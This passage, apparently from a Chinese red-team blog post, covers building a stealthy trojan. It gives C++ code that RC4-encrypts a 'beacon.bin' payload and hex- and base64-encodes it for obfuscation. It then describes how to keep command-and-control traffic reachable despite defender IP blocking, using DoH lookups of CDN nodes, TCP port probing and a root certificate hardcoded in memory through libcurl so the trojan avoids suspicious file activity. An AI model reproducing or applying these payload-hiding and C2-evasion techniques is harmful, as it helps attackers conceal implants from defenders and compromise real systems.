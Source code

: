     std::string base64_encode(const std::string& input) {    const std::string base64Chars = "**********************************************";    std::string encodedString;    size_t inputSize = input.size();    size_t i = 0;        while (i < inputSize) {        unsigned char char1 = input[i++];        unsigned char char2 = (i < inputSize) ? input[i++] : 0;        unsigned char char3 = (i < inputSize) ? input[i++] : 0;                unsigned char b1 = char1 >> 2;        unsigned char b2 = ((char1 & ***) << 4) | (char2 >> 4);        unsigned char b3 = ((char2 & ***) << 2) | (char3 >> 6);        unsigned char b4 = char3 & ***;                encodedString += base64Chars[b1];        encodedString += base64Chars[b2];        encodedString += (char2 ? base64Chars[b3] : '=');        encodedString += (char3 ? base64Chars[b4] : '=');    }        return encodedString;}  
    std::string hex_encode(const std::string& input) {    std::stringstream encoded;    encoded << std::hex << std::setfill('0');        for (unsigned char c : input) {        encoded << std::setw(2) << static_cast<int>(c);    }        return encoded.str();}  
    std::string rc4_encrypt_decrypt(const std::string& data, const std::string& key) {    std::string result;    result.reserve(data.size());        std::vector<unsigned char> state(***);    for (int i = 0; i < ***; ++i) {        state[i] = i;    }        int j = 0;    int keyLength = key.size();        for (int i = 0; i < ***; ++i) {        j = (j + state[i] + key[i % keyLength]) % ***;        std::swap(state[i], state[j]);    }        int i = 0;    j = 0;        for (char c : data) {        i = (i + 1) % ***;        j = (j + state[i]) % ***;        std::swap(state[i], state[j]);        result += c ^ state[(state[i] + state[j]) % ***];    }        return result;}  
    std::string read_file(const std::string& filepath) {    std::ifstream file(filepath, std::ios::binary);    if (!file) {        return "";    }        std::stringstream buffer;    buffer << file.rdbuf();        return buffer.str();}  
    int main() {    std::string filename = "/Users/hunter/Downloads/beacon.bin";    std::string key = "**********************************************";//自己可以改    std::string enc_file = rc4_encrypt_decrypt(read_file(filename), key);        std::string hex_string = hex_encode(enc_file);  
        // std::cout << "Hex encoded content of file " << filename << ":" << std::endl;    std::cout << "HEX encoded: " << std::endl;    std::cout << hex_string << std::endl;    std::cout << "B64 encoded agian: " << std::endl;    std::cout << base64_encode(hex_string) << std::endl;  
        return 0;}  
    

  

 **2.3 连通性保障    **

由于防守方无法判定是否为恶意流量，当他们杀疯了的时候是有可能会批量封锁CDN的IP的；或者某些CDN节点IP本来就是暂时失效的，所以通过DoH查询得到的IP列表并不一定都可达。

因此我在轮询查询的逻辑中添加了一个TCP端口探测的功能，即下图中调用的isTCPPortOpen()方法。当前节点IP的特定端口无法访问时，切换下一个节点IP进行测试，如果可以建立TCP三次握手则返回这个验证可达的IP地址。![]()使用方法如下，在调用secureGetHostByName()的时候加一个参数指定需要探测连通性的端口即可，由于CDN使用https协议，这个端口通常是443。![]()

###  **2.4 服务端证书校验  **

使用https的代码都是基于libcurl二次封装的，而libcurl默认状态就是支持证书校验的但这里有个天坑，掉进去了多半天才爬出来......libcurl的API参数名字容易产生误解，简而言之就是CURLOPT_SSL_VERIFYPEER开关才是验证证书有效性，而CURLOPT_SSL_VERIFYHOST开关其实只是验证证书里面的CN/SAN等字段和请求的URL种的域名/IP是否吻合，但并不会验证证书的有效性。详细说明如下。![]()![]()举个例子，比如挂上代理后通过burp访问百度，我们看到的证书是这样的：![]()很显然，证书被burp替换了，浏览器会告警；这时候如果再访问搜狐，看到的证书是这样的：![]()burp是会根据我们访问的host来动态修改证书的，而并不关心证书是否有效。如下图可以看到，右边被修改过的证书在Windows下会提示损坏，而左边的则是burp直接导出的自签名证书。![]()因此如果没仔细看API文档，以为“PEER”代表的是客户端证书校验，那就根本起不到防中间人的作用。但是开启证书校验后我们需要根CA证书来验证信任链，而对于一个需要尽可能不做可疑行为的木马来说，肯定不能去用户的文件系统里搜索根证书，也最好不要随便释放文件。所以我们可以将自己携带根证书的数据（硬编码），用CURLOPT_CAINFO_BLOB来直接从内存里加载根证书，如下（这里要先设置CURLOPT_CAINFO为空指针，阻止libcurl优先去文件系统中找根证书的数据）。![]()

  

##

* * *
